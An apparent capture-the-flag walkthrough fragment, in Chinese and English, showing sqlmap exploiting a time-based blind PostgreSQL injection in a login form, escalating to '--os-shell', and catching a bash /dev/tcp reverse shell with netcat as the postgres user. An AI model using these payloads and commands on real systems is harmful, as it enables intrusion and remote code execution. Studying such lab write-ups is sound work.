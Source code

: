  ___ ___[(]_____ ___ ___  {1.8.2#stable}                                                                                                                                                                                                    
|_ -| . [.]     | .'| . |                                                                                                                                                                                                                   
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 01:52:44 /2024-02-20/

[01:52:44] [INFO] parsing HTTP request from 'data'
[01:52:44] [INFO] resuming back-end DBMS 'postgresql' 
[01:52:44] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: username=max' AND 1799=(SELECT 1799 FROM PG_SLEEP(5))-- vJpB&password=123456
---
[01:52:47] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Debian 10 (buster)
web application technology: PHP 7.3.14, Apache 2.4.38
back-end DBMS: PostgreSQL
[01:52:47] [CRITICAL] unable to prompt for an interactive operating system shell via the back-end DBMS because stacked queries SQL injection is not supported

[*] ending @ 01:52:47 /2024-02-20/

```

指定注入技术为堆叠查询：--technique S

```
sqlmap -r data  --risk=3 --level=3 --batch --force-ssl  --os-shell --technique S 
```

rev shell

```
bash -c 'bash -i >& /dev/tcp/10.10.16.3/4444 0>&1'
```

```
┌──(root㉿kali)-[~]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.236] 51379
bash: cannot set terminal process group (5330): Inappropriate ioctl for device
bash: no job control in this shell
whoami
postgres

